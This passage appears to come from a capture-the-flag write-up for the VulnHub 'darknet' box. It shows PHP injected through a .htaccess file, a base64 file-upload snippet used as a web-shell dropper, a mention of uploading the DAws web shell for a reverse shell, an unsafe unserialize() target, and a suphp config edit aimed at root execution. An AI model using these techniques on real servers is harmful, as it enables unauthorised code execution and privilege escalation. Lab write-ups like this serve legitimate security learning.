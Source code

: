 #<?php print $_GET["test"]; ?> 
{{< / highlight >}}

Sure enough the `$_GET["test"]` variable is on the page. So this should allow me 
to get a run some useful code on there somehow.

After following some blind leads, I wrote a php script that would take a file encoded 
with base64 and a filename via a `POST` method and write this file out.
(Note: appending the entire script for DAws or similar didn't work).
Something like this should work though:

{{< highlight php >}}
$fp = fopen($_POST['name'], 'wb'); 
fwrite($fp, base64_decode($_POST['data'])); 
fclose($fp);
{{< / highlight >}}

At the end of the `.htaccess` file. However this always error with a permissions
error.

After struggling with this for quite some time I got some help from a fellow
#vulnhub resident who helped me out with something I missed. It's `suphp` not `php`,
so I wasn't executing the script as the `errorlevel` user. Derp.

More info on [suphp](http://suphp.org/Home.html)

# Stage 5

So having sorted that I uploaded `DAws` and got myself a reverse shell and explored
once more. Now inside `/var/www` there's some files I missed earlier: `sec.php`,
`Classes/Test.php`, and `Classes/Show.php`. Interesting.

Trying to hit `darknet.com/sec.php` errors. Let's take a look inside of it

{{< highlight php >}}
<?php

require "Classes/Test.php";
require "Classes/Show.php";

if(!empty($_POST['test'])){
    $d=$_POST['test'];
    $j=unserialize($d);
    echo $j;
}
?>
{{< / highlight >}}

Rembering that we're dealing with suphp it could well be that the 500 error is
because `sec.php` is trying to run as `root`. Checking `/etc/suphp/suphp.conf` 
my suspicion is correct, the `min_uid` and `min_gid` settings are too high for
`root` scripts to run. But hey, as luck would have it (thanks q3rv0) `suphp.conf`
is `777`. So heading straight to `sed`

{{< highlight console >}}
$ sed -i 's/min_uid=100/min_uid=0/g' suphp.conf
sed: couldn't open temporary file ./sedm2LUZQ: Permission denied
{{< / highlight >}}
